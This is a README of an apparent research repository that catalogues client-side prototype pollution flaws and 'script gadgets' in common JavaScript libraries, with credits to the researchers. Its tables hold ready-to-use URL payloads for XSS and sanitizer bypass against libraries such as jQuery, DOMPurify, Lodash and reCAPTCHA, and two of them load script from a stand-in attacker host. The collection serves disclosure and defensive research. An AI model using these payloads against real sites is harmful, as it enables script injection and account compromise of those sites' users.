# Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                    | Payload                                                                  | Refs                                        | Found by                                         |
|---------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                       | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)| `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                 | `?__proto__.test=test`                                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)               | `?__proto__.test=test`<br>`?__proto__[test]=test`                        |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)         | `?__proto__.test=test`                                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                         | `?__proto__[test]=test`                                                  |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                 | `?__proto__[test]=test`                                                  |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md)             | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`               | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md)       | `?__proto__[src][]=data:,alert(1)//`                                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md)  | `?__proto__[url]=data:,alert(1)//`                                            | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1&__proto__[src]=//attacker.tld/js.js`                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1&__proto__[url]=//attacker.tld/js.js`                     | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src`      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src`          | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1`                              | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)`   | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
